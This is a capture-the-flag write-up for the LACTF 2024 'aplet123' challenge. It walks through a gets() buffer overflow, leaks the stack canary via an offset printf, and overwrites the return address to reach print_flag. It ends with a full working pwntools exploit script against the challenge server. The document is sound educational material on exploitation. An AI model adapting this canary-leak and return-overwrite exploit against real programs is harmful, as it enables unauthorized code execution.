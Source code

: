 # aplet123

aplet123 was an introductory pwn challenge, for LACTF 2024. We are given the C source code for the program, shown below:

```clike=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) { // 0x00000000004012ee
      printf("hi %s, i'm aplet123\n", s + 4); 
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) { // 0x0000000000401357
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

Upon examination of this program, we notice that there is a `print_flag` function at the top which will simply give us the flag on remote, so we want to somehow invoke this function. However, nowhere in the code is this function explicitly invoked, so we cannot simply navigate around the intended behavior of the program to get the flag. Instead, we will have to look for another path to execute this function. 

In C, the `gets` function is often vulnerable to attacks such as buffer overflows, which we quickly notice in the source code. We can exploit this.

## The Buffer Overflow 

A buffer overflow is a common vulnerability in C programs that use the unprotected `gets` function. `gets` reads in an input from stdin and writes to a buffer, which is notorious for being unsafe as unlike its successors like `fgets` or `scanf`, will not limit how much text is read from stdin. This means that if we simply provide more than 64 characters, `gets` will read more than 64 characters to the input buffer of size 64 and simply continue to overwrite the values on the stack allocated beyond it. One main consequence of this is that if we continue to overwrite enough contents on the stack, we can eventually reach the location of the return address of a function (which is the first item stored on the stack frame of a function in C), and overwrite it arbitrarily with a return address of our choosing. Particularly, we will overwrite it with the address of `print_flag` such that when `main` ends, the program will simply print the flag. 

### Stack Canaries

However, an elementary buffer overflow will not be sufficient for this challenge. When we run `checksec` on the executable we are provided in the challenge description, we get the following:
```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The main vulnerability that will prevent our buffer overflow is the stack canary, which is enabled. The stack canary, in a 64-bit system, is a random sequence of 8 bytes placed in between the return address of a function and any local variables placed after it on the stack. If an adversary attempts a buffer overflow on this, they must overwrite the stack canary, and if the stack canary is changed, the program will detect this and prematurely terminate. To bypass this, an attacker would have to overwrite the buffer until the canary, leak the canary, overwrite the canary with the canary itself, and then proceed to overwrite the return address. We will now explore how this challenge allows us to leak the canary.


### Leaking the Canary

One protection the canary has is that it starts with a null byte in our program, which prevents us from simply printing through the stack canary to leak it, as `printf` will terminate at this null byte. 

The main vulnerability in this function that allows us to leak the stack canary is the call to `printf`, which starts printing 4 bytes after a pointer which we can essentially arbitrarily set by manipulating the location of the string `i'm` in our input. Particulary, since it starts printing 4 bytes after the start of the string, we skip over the 3 characters of `i'm` *and* another byte beyond this. This leads us to ask, if we now have essentially shown that we can skip over an arbitrary byte of the stack and print after it, can we skip over this null byte and print the canary?

And we can! By using gdb to determine the distance from our buffer to the canary to be 72 bytes, we can inject 69 random characters to the buffer + 3 for `i'm`, which will bring the `*s` pointer to point 3 before the start of the canary. Now, when `printf` starts printing 4 after this location, it will print the 7 bytes of the canary after the null byte! Recovering this and placing our own null byte before this, we can recover the canary. 

After this, we'll take the path through our program we get by saying "bye" to aplet123 by inputting `bye\0` (to pass the if statement to take this branch), followed by 68 random characters to overwrite the buffer, the leaked canary itself to overwrite the canary, 8 more random characters to overwrite `rbp` and the address to our `win` function.


### Solution!
A more detailed python script to achieve this is below:

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

exe = ELF("./aplet123")
HOST, PORT = 'chall.lac.tf', 31123
def connect():
    return remote(HOST, PORT)

r = connect()
# gdb.attach(r, gdbscript='''b main
#             b *0x0000000000401357''')
            #    b *0x0000000000401374''')

win = exe.symbols["print_flag"]
log.info(f'Win: {hex(win)}')

# Step 1: get the stack canary
r.recvuntil(b'hello\n')
payload = b'A'*(64+8-4+1) + b'i\'m'
r.sendline(payload)
r.recvuntil(b'hi ')
canary = r.recvuntil(b', i\'m aplet123\n')[:-15][:7][::-1] + b'\0'
canary = canary[::-1]
log.info(f'Canary: {canary.hex()}')

# Step 2: break out of infinite loop and overwrite return
canary = int.from_bytes(canary, byteorder='little')
canary = p64(canary)
win = p64(win)
payload = b'bye\0' + b'A'*68 + canary + b'A'*8 + win
r.sendline(payload)
log.info(f'Payload sent: {payload}')

r.interactive()
```
Running this script on the remote, we get the flag!